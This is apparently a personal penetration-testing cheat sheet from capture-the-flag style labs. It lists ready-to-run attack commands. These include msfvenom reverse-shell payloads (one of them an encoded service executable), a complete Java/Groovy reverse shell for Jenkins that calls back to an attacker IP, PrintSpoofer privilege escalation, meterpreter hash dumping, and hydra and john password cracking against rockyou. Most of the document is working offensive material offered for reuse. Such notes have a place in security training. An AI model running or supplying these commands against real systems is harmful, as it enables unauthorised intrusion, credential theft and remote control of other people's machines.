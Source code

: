 ## basic gobuster
```bash
gobuster dir -u http://10.10.145.21 -w /usr/share/wordlists/dirb/common.txt -e -o scans/gobuster.common
```

## basic
```bash
nmap -sV 10.10.240.21 -o scans/nmap.initial
```

## all ports 
```bash
nmap -sV -p- -T5 10.10.145.21 -o scans/nmap.all
```

## view smb shares
```bash
smbclient -L 10.10.145.21
```
## connect to specific file share
```bash
smbclient \\\\10.10.145.21\\nt4wrksv
```

## aspx reverse shell msfvenom
catch with netcat
```bash
msfvenom -f aspx -p windows/x64/shell_reverse_tcp LHOST=10.18.84.211 LPORT=9000 -o pown.aspx
```
## printspoofer
https://github.com/dievus/printspoofer
windows privilage escalation

```bash
PrintSpoofer.exe -i -c cmd
```
## search for wordpress users
```bash
wpscan --url 10.10.240.21/blog -e vp,u
```

## php reverse shell 
```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O rshell.php
```

## spawn shell in python

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```


## find SUID files
```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
```

## exploit systemctl SUID 
GTFOBINS
https://gtfobins.github.io/gtfobins/systemctl/

## eternal blue
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)

## shell to meterpreter session
post/multi/manage/shell_to_meterpreter

set session and run
creates a new background session with meterpreter

## hasdump
run 
```bash
hashdump
``` 
in meterpreter session to dump hashes

## cracking with john
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

## enumerate samba shares with nmap
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.137.253
```

## download files from samba shares
```bash
smbclient //<ip>/anonymous
```

## enumerate rpcbind with nmap
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.137.253
```

## load powershell in meterpreter session

```bash
load powershell
```
```bash
powershell_shell
```
## msfvenom reverse shell .exe
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.84.211 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

## wpscan 
```bash
wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
```

## ssh port forward
host service from ssh network running on 172.17.0.2:8080 on localhost:8080
```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm
```

## hydra jenkins
```bash
hydra -s 8080 localhost http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:Invalid username or password" -l admin -P /usr/share/wordlists/rockyou.txt -t 10 -w 30
```

## jenkins reverse shell 
```bash
String host="10.18.84.211";
int port=9000;
String cmd="/bin/sh";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## stabilize shell with xterm 
```bash
export TERM=xterm
```



